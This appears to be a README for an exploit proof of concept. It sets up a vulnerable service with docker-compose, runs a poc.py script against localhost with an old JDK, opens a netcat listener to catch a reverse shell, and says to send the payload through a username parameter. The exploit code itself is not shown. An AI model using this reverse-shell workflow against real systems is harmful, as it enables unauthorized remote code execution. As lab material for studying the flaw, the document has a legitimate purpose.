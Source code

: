 # Installation

```
docker-compose up -d
```

# Exploit

1. Install the requirements.
```
pip install -r requirements.txt
```

2. Install the JDK jdk1.8.0_20 into the same directory and run the exploit.
```
# JDK must be present in the same directory as that of PoC
python3 poc.py --userip localhost --webport 8000 --lport 9001
```

3. Start the netcat listner.

```
nc -lnvp 9001
```

4. Send the Payload in the username parameter

